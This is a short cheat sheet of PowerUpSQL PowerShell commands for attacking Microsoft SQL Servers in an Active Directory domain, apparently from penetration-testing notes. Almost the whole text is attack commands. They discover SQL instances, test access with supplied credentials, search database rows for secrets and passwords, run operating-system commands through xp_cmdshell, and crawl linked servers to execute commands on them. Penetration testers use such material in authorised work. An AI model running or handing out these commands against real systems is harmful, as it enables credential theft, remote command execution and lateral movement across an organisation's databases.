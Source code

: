 ### Source
https://raw.githubusercontent.com/NetSPI/PowerUpSQL/master/PowerUpSQL.ps1  

### Discover active directory domain SQL server
```
Get-SQLInstanceDomain -Verbose | Get-SQLServerinfo -Verbose
```

### List accessible SQL server using credentials
```
Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 -username <user> -password <password> | Where-Object {$_.Status -like "Accessible"}
```

### Get information from specific instance
```
Get-Sqlserverinfo -instance <instance>
```

### Scan for misconfiguration
```
Invoke-sqlaudit -instance <instance>
```

### Search database rows for specific keywords (NoDefaults skip default tables)
```
Get-SQLColumnSampleData –Verbose –Keyword "secret,password" –SampleSize 10 –NoDefaults -Instance <instance>
```

### Execute command
```
Invoke-SQLOSCmd -Instance <instance> -Command '<command>' -RawResults
```

### Execute query
```
Get-SQLQuery -Instance <instance> -Query 'SELECT * FROM master..sysservers'
```

### Scan for linked databases
```
Get-SQLServerLinkCrawl -Instance <instance>
```

### Execute commands on linked instances
```
Get-SQLServerLinkCrawl -Instance <instance> -Query "exec master..xp_cmdshell '<command>'"
```

### Excute command on linked mssql instance via instance (xp_cmdshell can not be enabled by OpenQuery)
```
Get-SQLServerLinkCrawl -Instance <instance> -Query "exec master..xp_cmdshell '<command>' "
```

